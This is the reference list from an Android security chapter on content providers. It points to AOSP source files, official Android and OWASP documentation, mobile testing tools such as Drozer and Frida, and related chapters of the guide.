- `frameworks/base/core/java/android/content/ContentProviderNative.java` — the Binder proxy and stub
- `frameworks/base/core/java/android/content/UriMatcher.java` — path routing
- `frameworks/base/core/java/android/app/ActivityThread.java` — `installContentProviders()` and
  provider reference counting
- `frameworks/base/services/core/java/com/android/server/am/ContentProviderHelper.java` —
  `getContentProviderImpl()` and `checkContentProviderPermission()`
- `frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java` — URI grant
  creation, checking and persistence
- `frameworks/base/core/java/android/database/sqlite/SQLiteQueryBuilder.java` — `setStrict`,
  `setProjectionMap`
- `frameworks/base/core/java/android/os/ParcelFileDescriptor.java` — FD passing over Binder
- `frameworks/base/cmds/content/src/com/android/commands/content/Content.java` — the `content` shell
  command
- `frameworks/support/core/src/main/java/androidx/core/content/FileProvider.java` (AndroidX) —
  `FileProvider` and its path canonicalisation
- Android Code Search — https://cs.android.com/

### Official documentation

- Content providers overview — https://developer.android.com/guide/topics/providers/content-providers
- Creating a content provider — https://developer.android.com/guide/topics/providers/content-provider-creating
- Content provider basics — https://developer.android.com/guide/topics/providers/content-provider-basics
- `<provider>` manifest element — https://developer.android.com/guide/topics/manifest/provider-element
- `<grant-uri-permission>` element — https://developer.android.com/guide/topics/manifest/grant-uri-permission-element
- `<path-permission>` element — https://developer.android.com/guide/topics/manifest/path-permission-element
- `FileProvider` — https://developer.android.com/reference/androidx/core/content/FileProvider
- Sharing files — https://developer.android.com/training/secure-file-sharing
- App security best practices, IPC section — https://developer.android.com/topic/security/best-practices
- Package visibility filtering — https://developer.android.com/training/package-visibility
- Storage Access Framework — https://developer.android.com/guide/topics/providers/document-provider

### OWASP

- OWASP MASVS — https://mas.owasp.org/MASVS/
- OWASP MASTG — https://mas.owasp.org/MASTG/
- MASVS-PLATFORM — platform interaction controls, the primary mapping for this chapter
- MASVS-STORAGE — data storage controls, for traversal-to-storage findings
- MASTG Android platform APIs testing chapter — includes the exported-provider and injection test cases

### Tooling

- Drozer — https://github.com/WithSecureLabs/drozer
- Frida — https://frida.re/docs/android/
- Objection — https://github.com/sensepost/objection
- MobSF — https://github.com/MobSF/Mobile-Security-Framework-MobSF
- jadx — https://github.com/skylot/jadx
- apktool — https://apktool.org/

### Related chapters

- [21-App-Sandbox](../21-App-Sandbox/README.md) — the UID isolation that makes providers necessary
- [23-Permissions](../23-Permissions/README.md) — protection levels, custom permissions, permission squatting
- [24-IPC](../24-IPC/README.md) — the wider IPC picture
- [25-Binder](../25-Binder/README.md) — the transport underneath everything here
- [26-Intent](../26-Intent/README.md) — intent redirection, the other half of grant laundering
- [28-Services](../28-Services/README.md) — the typed alternative to `call()`
- [29-BroadcastReceivers](../29-BroadcastReceivers/README.md) — the other unauthenticated entry point
- [30-Activities](../30-Activities/README.md) — the deputy components that launder grants
- [32-Manifest](../32-Manifest/README.md) — reading the merged manifest correctly
- [33-Storage](../33-Storage/README.md) — what traversal actually reaches
- [43-WebView](../43-WebView/README.md) — `setAllowContentAccess` and reaching providers from JavaScript
- [52-StaticAnalysis](../52-StaticAnalysis/README.md) — the wider static methodology
- [53-Frida](../53-Frida/README.md) — the hooking mechanics behind this chapter's scripts
- [71-OWASP-Mobile](../71-OWASP-Mobile/README.md) — MASVS/MASTG in full
- [77-UsefulCommands](../77-UsefulCommands/README.md) — the `content` and `dumpsys` command reference


